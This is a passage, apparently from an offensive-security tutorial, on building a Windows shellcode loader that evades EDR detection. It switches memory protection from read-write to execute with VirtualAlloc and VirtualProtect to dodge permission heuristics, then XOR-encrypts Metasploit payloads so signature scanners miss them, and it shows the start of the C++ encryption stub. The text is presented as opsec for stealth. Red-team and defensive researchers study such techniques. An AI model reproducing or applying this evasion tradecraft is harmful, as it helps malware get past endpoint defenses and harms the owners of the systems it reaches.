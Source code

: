 ```
Nowadays, any decent EDR solution will look for memory allocated with both WRITE and EXECUTE permissions and flag this as potentially malicious. Let's see what we can do to further obfuscate our actions. Instead of requesting memory that is both executable and writeable, we'll instead request memory that is writable, write to it and then change the memory protection to executable only. Of course, this won't thwart your decent EDR solution, but its good opsec.

We'll change from this:

```	LPVOID  address = (LPVOID)VirtualAlloc(0, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);```
 to this:
 ```	LPVOID  address = (LPVOID)VirtualAlloc(0, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);```

Noting the change in the last parameter. Everything will run as previously until we try and create a thread and execute the payload. That will return an error because the memory page is no longer executable. Therefore we need to find a way of changing the memory protection to mark it executable. Enter `VirtualProtect`:

```protect = VirtualProtect(address, payload_len, PAGE_EXECUTE_READ, &oldProtection);```


## 5 - Encrypting payload

At this point, our shellcode loader will run whatever we want, but its not very stealthy. Modern day EDR solutions will scan the executable file for signatured payloads and metasploit payloads are signatured to death. To get around this, we can encrypt our payloads at rest and during runtime decrypt them and inject them into a new thread. To do this, we'll need to write a couple of new functions. We'll want to write a stub that will encrypt the payload, so we can use this as the payload within the executable.  

The following file has 2 functions, one will encrypt the payload with a given key. The encryption method is XOR, which whilst not particularly secure, does a good job for our current payloads. I may in the future add a different type of encryption. The second function prints the output, so you can copy pasta into the main C++ file. I've also added a simple sanity check to ensure that the encrypted payload can be decrypted back to the plain-text. 
```
#include <windows.h>
#include <stdio.h>
#include <tchar.h>

void print_in_hex(unsigned char *buffer, int buf_len) {
	for (int i = 0; i < buf_len; i++) {
		printf("\\x%x", buffer[i]);
	}
	return;
}

unsigned char * xor_encrypt(unsigned char *buffer_src, unsigned char *pass, int buf_len, int key_len) {
	key_len = key_len - 1;
	unsigned char* final = new unsigned char[buf_len];
	unsigned char key_char;
